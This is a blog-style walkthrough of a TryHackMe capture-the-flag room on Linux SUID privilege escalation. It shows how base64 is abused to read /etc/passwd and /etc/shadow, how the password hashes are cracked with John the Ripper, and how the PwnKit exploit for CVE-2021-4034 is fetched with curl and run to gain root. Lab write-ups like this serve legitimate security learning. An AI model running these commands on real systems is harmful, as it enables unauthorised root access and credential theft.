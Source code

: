 ```yaml
---
layout: post
title: THM - Linux Privilge Escalation - SUID
subtitle: Using binaries with SUID set to escalate
date: 2025-04-05
tags:
  - pentest
  - tryhackme
  - linux
  - SUID
  - priv-esc
cover-img: /assets/img/etc-shadow-tux.png
thumbnail-img: /assets/img/linux-priv-esc.png
comments: true
mathjax: true
---
```


It's time for some more privilege escalation! This time it's about checking what binaries have SUID bit set.

# Getting the lay of the land

Our first question is asking about which user has a name of a famous comic book writer. This tells us we're going to need to read /etc/passwd. The idea is that our privilege escalation will likely focus on file read, at least to start.

We start by listing all the binaries for which the SUID bit is set for our `karen` user.

We start with the following command:

```sh
find / -type f -perm -04000 -ls 2>/dev/null
```
Here's the result, focusing on those binaries found in `/usr/bin`:

![SUID Binaries](/assets/img/SUID-binaries-lin-priv-esc.png)

The next step is to scan [GTFOBins](https://gtfobins.github.io/#+suid) with SUID filter on...

# Finding something useful...

After a bit of perusing GTFOBins, we spot an entry for `base64`:

![Base64-SUID](/assets/img/GTFOBins-base64-SUID.png)

Since it's already a SUID binary, we can read files with elevated privileges with the following command:

```sh
base64 /path/to/file | base64 --decode
```

# Reading privileged files

With this knowledge, we can now read `/etc/passwd`!

We run the following command:

```sh
$ base64 /etc/passwd | base64 --decode
```

Here's the result!

![etc/passwd](/assets/img/etc-passwd-lin-priv-esc-suid.png)

Bingo! Looks like our comic user is `gerryconway`. Gerry Conway is the co-creator of *The Punisher* and apparently has account on this VM!

![Gerry Conway](https://upload.wikimedia.org/wikipedia/commons/thumb/0/08/10.8.17GerryConwayByLuigiNovi1.jpg/220px-10.8.17GerryConwayByLuigiNovi1.jpg)

Ok question 1 successfully solved! Awesome!

# Cracking some passwords

The next question is asking us for the password of `user2`. We're going to need the contents of `/etc/shadow` along with `/etc/passwd` and then user `unshadow` on our AttackBox to get things set up for John the Ripper.

Privileged file read is already available to us! We just need to user `base64` again!

```sh
$ base64 /etc/shadow | base64 --decode
```

Here's the result!

![etc/shadow](/assets/img/etc-shadow-lin-priv-esc-suid.png)

Since I had accessed the target computer via `ssh` on a terminal on the AttackBox, I just used the clipboard to create `passwd.txt` and `shadow.txt` on the AttackBox. Alternatively, we could redirect the output of `base64` to a writable directory, such as `/dev/shm` as follows:

```sh
$ base64 /etc/passwd | base64 --decode > /dev/shm/passwd.txt
$ base64 /etc/shadow | base64 --decode > /dev/shm/shadow.txt
```

We can then `cd /dev/shm` and start up an simple HTTP server:

```sh
$ cd /dev/shm
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Then on our AttackBox we can use `wget` to grab each file.

However we get the contents of `/etc/passwd` and `/etc/shadow` on the AttackBox (copy/paste or with `wget`), the next step is to run `unshadow`:

```sh
$ unshadow passwd.txt shadow.txt > passwords.txt
```

We're all set to run John the Ripper!

```sh
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt passwords.txt
```

This gives us the following, 3 cracked passwords!

![Cracked Passwords](/assets/img/crack-pass-lin-priv-esc-suid.png)

That's another question answered! Hoorah!

# Capturing the Flag

I'll be honest, I took a bit of a long circuitous route to get the contents of `flag3.txt`. Briefly, the simple way is just to remember that we can use `base64` for elevated privilege on file read. So after we locate the file with `find \ -name "flag3.txt" 2>/dev/null`, which tells us the file is located in `/home/ubuntu`, we can just run:

```sh
$ base64 /home/ubuntu/flag3.txt | base64 --decode
```
And we're done!

That's the easy way!  I took....The long way.

I had my mind set on adding a user with root privileges to `/etc/passwd` (using `openssl` to generate a hash). I knew I had file read, but I wanted file write (something like `nano`), so I started logging in as the other users whose passwords I just cracked. I logged in with each user and searched for binaries that had the SUID bit set. No real luck though.

I then noticed that the SUID bit was set for the binary `/usr/bin/pkexec`. While there was no mention of this binary in GTFOBins, I did a little research and discovered that this binary suffers from a vulnerability that permits privilege escalation!

# CVE-2021-4034

Unless it's been patched, `pkexec` is affected by the CVE-2021-4034 `PwnBox` vulnerability.

Binaries for `PwnBox` are easily available online, and so on the AttackBox (which is connected to the Internet), I downloaded the binary.

```sh
$ curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
```

I next started a simple HTTP server and used `wget` from the target VM to get the binary on it. I wrote the binary to `/dev/shm/` as I have both write access and I can execute files from that directory.

The next step was to make the file executable:

```sh
$ chmod +x PwnBox
```

Now it's time to try it out!!!

![Root!](/assets/img/root-lin-priv-esc-suid.png)

And we're `root`!!!! A bit of overkill to get the contents of `flag3.txt`, but in the struggle we learned about a new vulnerability and did some more privilege escalation!

# 🧠 Takeaways

✅ **Always check file permissions first** — don’t assume you need root to read a file!  
✅ SUID + GTFOBins = 💥  
✅ `base64` is a stealthy tool for privilege escalation when `cat` and `less` are blocked  
✅ `/dev/shm` is a goldmine for temporary file transfer/execution  
✅ PwnKit is powerful, but don’t escalate when you don’t need to 😉  
✅ CTFs reward **curiosity**, even if it means going the long way around